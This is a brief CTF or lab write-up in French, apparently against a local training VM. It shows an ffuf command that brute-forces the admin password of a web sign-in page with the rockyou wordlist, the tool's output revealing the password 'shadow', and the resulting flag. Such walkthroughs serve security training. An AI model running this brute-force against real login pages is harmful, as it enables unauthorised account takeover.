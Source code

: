# Weak Password

- La DB s'appelle Member_Brute_Force on comprends donc qu'il faut bruteforce le mot de passe
- J'utilise donc ffuf qui permet de bruteforce un lien
- J'y met un dictionnaire de mot de passe les plus populaire (rockyou.txt)
```
└──╼ $ffuf -w ~/rockyou.txt:FUZZ -u 'http://192.168.56.104/?page=signin&username=admin&password=FUZZ&Login=Login#' -fw 80


        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.56.104/?page=signin&username=admin&password=FUZZ&Login=Login#
 :: Wordlist         : FUZZ: /home/user/rockyou.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response words: 80
________________________________________________

shadow                  [Status: 200, Size: 2088, Words: 87, Lines: 55]
```
- On voit que le mot de passe shadow retourne une page plus grande que les autres
- On entre donc les login admin shadow et on a le flag
```
The flag is : b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2
```
